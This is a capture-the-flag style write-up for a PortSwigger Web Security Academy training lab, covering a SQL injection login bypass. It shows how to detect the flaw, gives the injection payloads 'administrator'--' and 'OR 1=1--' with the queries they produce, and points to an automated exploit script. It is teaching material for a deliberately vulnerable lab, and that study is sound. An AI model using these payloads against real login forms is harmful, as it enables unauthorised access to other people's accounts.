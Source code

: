 \+ Lab #2    : SQL injection allowing login bypass\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/sql-injection/lab-login-bypass \


## About:
This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) in the login functionality.<br/>
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## End Goal:
Bypassing the login functionality and loging in as the ```administrator``` user

## Detection: 
* Navigate to the ```/login``` directory and you will be presented with the vulnerable login functionality<br/>
* Since we know that this login form is vulnerable to SQLi, let's try triggering an error by submitting a single quote ```'``` in the ```username``` field and some random password in the password field.
* The App should return a ```500 Internal Server Error```, which means that an error has occured in the back-end database while processing the query.
* The ```username``` POST parameter is vulnerable to SQL Injection !

## Exploitation: 
### Manual: 
1. Intercept the request with Burp Suite proxy,
2. Send the request to repeater,
3. Inject the username field with the following payload: ```administrator'--```
4. The resulting query sent by the App to the back-end database should look to something like this:
```SQL
SELECT * FROM content WHERE username='administrator'--' AND password='p@$$w0rd'
SELECT * FROM content WHERE username='administrator'
```
> :memo: **Note:** You can also try the following payload ```randomusername' OR 1=1--``` which is also valid and bypasses the login functionality
```SQL
SELECT * FROM content WHERE username='randomusername' OR 1=1--' AND password='p@$$w0rd'
```
### Automated: 
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%232/Lab-2.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
$ python3 Lab-2.py --help
usage: Lab-2.py [-h] -u URL [-n]

Usage Example: python3 Lab-2.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
![Lab#2](https://user-images.githubusercontent.com/101610095/219528976-629965c4-3648-4969-846f-6b7376088356.gif)
